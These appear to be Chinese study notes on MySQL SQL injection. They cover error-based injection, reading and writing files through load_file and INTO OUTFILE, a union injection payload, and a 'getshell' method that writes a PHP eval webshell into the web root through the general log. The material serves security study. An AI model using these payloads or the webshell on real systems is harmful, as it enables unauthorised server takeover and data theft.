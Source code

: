 ### 报错注入小技巧:

如果是在修改密码之类的界面,需要先输入用户名或者原密码的情况下,旧数据和新数据同时输入,有可能会出现不报错的情况,此时==可以尝试在输入旧数据的输入框输入正确的数据,在新数据输入框中猜测后端查询语句,并构造注入,有可能会爆出错误从而直接利用报错注入拿到数据!!!==

## 文件读写

### 读文件

```mysql
select load_file("路径和文件名");
load data infile() ;
```

> load data infile 和 load data local infile ，不受 secure-file-priv 的限制 

### 写文件

```mysql
SELECT "123" INTO OUTFILE "c:/123.txt";
SELECT "123abc" INTO DUMPFILE "c:/123.txt";
```

注：dumpfile可以处理非可见字符。

要使用union查询写文件，不能使用and或者or拼接写文件

#### 读写文件的条件

1. 绝对路径
2. `secure_file_priv `选项的值为空(my.ini文件中设置为`secure_file_priv=`
   默认是NULL，可以通过my.conf/my.ini文件mysqld一栏里进行配置，配置完成后，重启便会生效。

#### 文件上传思路步骤：

1. 找到注入点
2. 判断列数
3. 猜测后端查询语句
  4. 判断注入类型
  5. 判断闭合符
6. 构造注入
   SELECT "123" INTO OUTFILE "c:/123.txt";
   select * from t_xx where c_xx=(('xx')) union SELECT 1,2,"123" INTO OUTFILE "c:/123.txt";%23'))

### 知识点拓展

在能够直接执行sql语句的应用中，如何通过SQL语句写日志getshell（文件上传学了之后再看）

```mysql
SHOW VARIABLES LIKE '%general%';# 查看日志配置（开关、位置）
set global general_log=on;# 开启日志
set global general_log_file='C:/phpstudy/www/methehack.php';# 设置日志位置为网站
目录
select '<?php eval($_POST["a"]); ?>'#执行生成包含木马日志的查询
```
